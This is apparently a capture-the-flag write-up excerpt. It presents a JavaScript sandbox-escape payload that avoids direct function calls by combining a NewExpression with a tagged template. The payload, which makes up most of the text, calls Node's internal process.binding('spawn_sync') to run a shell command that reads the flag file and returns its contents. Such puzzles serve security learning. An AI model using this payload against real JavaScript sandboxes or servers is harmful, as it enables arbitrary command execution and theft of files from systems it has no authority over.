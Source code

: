 # Payload

There are many ways to call a function without the use of a CallExpression. The below solution makes use of a NewExpression to create a new function that reads the flag file. Then, we use [tagged templates](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates) to call the function.

```js
new Function('let result=process.binding("spawn_sync").spawn({file:"cat",args:["cat","./flag"],stdio:[{type:"pipe",readable:true,writable:false},{type:"pipe",readable:false,writable:true},{type:"pipe",readable:false,writable:true},],});let output=result.output[1].toString();return output;')``
```
